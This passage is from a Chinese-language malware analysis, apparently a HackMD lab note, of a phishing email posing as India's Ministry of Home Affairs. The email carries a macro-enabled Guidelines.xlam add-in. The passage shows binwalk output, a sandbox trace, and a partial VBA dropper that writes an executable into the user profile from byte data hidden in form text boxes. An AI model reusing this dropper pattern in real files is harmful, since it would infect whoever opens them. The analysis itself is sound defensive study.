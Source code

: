     Change: 2024-02-29 16:55:48.949690200 +0800
     Birth: -
    $ binwalk 93f33e4e9a732de665510aa5fdc565fc00bcf5e28101c5cc55b5b16f94288b8a

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    4244          0x1094          HTML document header
    5554          0x15B2          HTML document footer
    73264         0x11E30         StuffIt Deluxe Segment (data): fWm1
    169908        0x297B4         IMG0 (VxWorks) header, size: 218780743
    ```
    :::
### 執行流程
1. 因為這是一個SMTP的檔案，所以先用VM的mail看一下裡面的資訊，沒意外的話根據上面的敘述，這應該是一個phishing email，並且把內文偽裝成印度的MHA政府部門(Ministry of Home Affairs, 內政部)
    ![圖片](https://hackmd.io/_uploads/BkY1yBRna.png)
2. 所以重點應該就是在信件中夾帶的檔案，也就是==Guidelines.xlam==，這也是一個沒有看過的extension，所以根據[^xlam]的說明，看起來這個檔案可以使用巨集，看到Macro這個關鍵字直覺上就感覺不太對勁，因為看過的實際案例就蠻常出現利用Macro夾帶一些script或是惡意的command
    > XLAM file extension may refer to a file used by a spreadsheet program called Microsoft Excel. This program enables users to create and edit spreadsheets. These files also contain a macro-enabled add-in that provides extra tools and functionality that may execute macros. XLAM files may also be used for extension of Excel provided modules.
3. 由於VM內沒有可以Excel，所以容許我用Any.Run Sandbox看一下中間執行的過程，首先針對前三個process，有很大的問題
    ![圖片](https://hackmd.io/_uploads/HkXNuwZT6.png)
    1. Unusual execution from MS Office
        ```bash
        $ C:\Users\admin\Glhvadia\hbraeiwas.exe
        ```
        不是很清楚這一個command line是怎麼來的，後來發現有一個VB script，從Any.Run中看不太出來他是怎麼執行的，所幸就直接在VM中安裝office來跟一下
        ![圖片](https://hackmd.io/_uploads/rylQFw-6a.png)
        
        其實一開始執行==Guidelines.xlam==時會詢問要不要啟動Macro，也就是這個時候如果啟動就會執行惡意的file→`"C:\Users\admin\Glhvadia\hbraeiwas.exe", vbNormalNoFocus`
    2. Analyze VBA
        一開始也不知道怎麼在Excel中看VBA code，也是根據[^vba][^vba-excel]才知道，另外，由於是第一次碰到關於VBA的問題，所以有關於要從哪一個Module開始看也不是很清楚，不過還好他只有兩個Module，雖然我看不是很確定VBA的流程，但根據AI的解析可以略知一二
        ![圖片](https://hackmd.io/_uploads/HJa3-Kb6T.png)
        ```vb=
        Sub userothraLoadr()
            Dim path_othra_file As String
            Dim file_othra_name  As String
            Dim fldr_othra_name  As Variant
            Dim byt() As Byte
            Dim ar1othra() As String


            file_othra_name = "hbraeiwas"
            fldr_othra_name = Environ$("USERPROFILE") & "\Glhvadia\"

            If Dir(fldr_othra_name, vbDirectory) = "" Then
                MkDir (fldr_othra_name)
            End If
            path_othra_file = fldr_othra_name & file_othra_name & ".e"
            If InStr(Application.OperatingSystem, "6.02") > 0 Or InStr(Application.OperatingSystem, "6.03") > 0 Then
                ar1othra = Split(UserForm1.TextBox2.Text, "i")
            Else
                ar1othra = Split(UserForm1.TextBox1.Text, "i")
            End If
            Dim btsothra() As Byte
            Dim linothra As Double
            linothra = 0